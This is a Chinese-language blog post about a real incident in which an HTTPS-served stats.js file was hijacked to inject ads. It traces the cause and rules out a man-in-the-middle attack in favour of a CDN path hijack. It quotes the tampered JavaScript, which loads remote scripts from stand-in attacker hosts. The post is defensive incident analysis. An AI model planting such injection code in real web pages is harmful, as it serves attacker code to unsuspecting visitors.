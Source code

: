 ```yaml
---
layout: post
title: HTTPS DNS劫持案例
tags: 技术 原创
---
```


今天早晨到公司后，同事反馈页面中存在注入广告。打开同事提供的页面链接后，第一次没有发现，刷新了大约10次终于发现了这个广告。

顺藤摸瓜找到被劫持的url，请求报文如下：
{% highlight text %}
Request URL:https://domain-a.com/stats.js
Request Method:GET
Status Code:200 OK
Remote Address:111.111.111.19:443
{% endhighlight %}

https协议的js文件被篡改成如下信息（示意文件，做了删改排版）：
{% highlight js %}
var a=document.createElement("script");
a.src="http://domain-b/entrance.js";
document.getElementsByTagName("head")[0].appendChild(a);

var b=document.createElement("script");
b.src="http://222.222.222.235/?url=domain-a.com/stats.js";
document.getElementsByTagName("head")[0].appendChild(b);
{% endhighlight %}

这是典型的js劫持，但这次HTTPS被劫持是**中间人劫持**呢？还是**证书泄露**？或者是其他情况？拉来安全的同事一起分析被劫持的页面请求现场。

HTTPS的静态文件被劫持，可能存在的情况主要有下面三种情况：

1. 证书泄露（被劫持的js文件是一个大公司的文件，证书泄露可能性较小）；
2. 中间人劫持；
3. CDN回源路径中存在劫持。

## 排查步骤如下

1、打开新的浏览器窗口，重复请求被劫持的链接

结果：同一个js未被劫持，再一次验证劫持是随机发生的。

2、打开[站长之家Ping查询](http://ping.chinaz.com/)和[IPIP Ping查询](http://www.ipip.net/ping.php)查询`domain-a.com`域名DNS结果，确认是否存在`111.111.111.19`这个IP。

结果：两个查询都不存在，疑似是劫持者服务器IP。

3、绑定本地hosts文件，再次被劫持的URL`https://domain-a.com/stats.js`
{% highlight text %}
111.111.111.19 domain-a.com
{% endhighlight %}
结果：劫持内容复现，证书签名正确，排除中间人劫持，进一步怀疑是CDN回源路径中存在劫持。
